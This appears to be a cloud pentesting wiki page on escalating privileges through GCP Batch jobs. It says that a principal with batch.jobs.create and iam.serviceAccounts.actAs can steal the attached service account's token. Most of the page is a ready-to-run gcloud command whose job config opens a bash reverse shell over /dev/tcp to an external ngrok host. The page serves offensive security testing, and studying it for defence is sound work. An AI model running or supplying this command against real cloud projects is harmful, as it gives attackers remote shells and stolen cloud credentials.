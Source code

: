 # GCP - Batch Privesc

## Batch

Basic information:

[[../gcp-services/gcp-batch-enum.md]]

### `batch.jobs.create`, `iam.serviceAccounts.actAs`

It's possible to create a batch job, get a reverse shell and exfiltrate the metadata token of the SA (compute SA by default).

```bash
gcloud beta batch jobs submit job-lxo3b2ub --location us-east1 --config - <<EOD
{
  "name": "projects/gcp-labs-35jfenjy/locations/us-central1/jobs/job-lxo3b2ub",
  "taskGroups": [
    {
      "taskCount": "1",
      "parallelism": "1",
      "taskSpec": {
        "computeResource": {
          "cpuMilli": "1000",
          "memoryMib": "512"
        },
        "runnables": [
          {
            "script": {
              "text": "/bin/bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/10396 0>&1'\n"
            }
          }
        ],
        "volumes": []
      }
    }
  ],
  "allocationPolicy": {
    "instances": [
      {
        "policy": {
          "provisioningModel": "STANDARD",
          "machineType": "e2-micro"
        }
      }
    ]
  },
  "logsPolicy": {
    "destination": "CLOUD_LOGGING"
  }
}
EOD
```

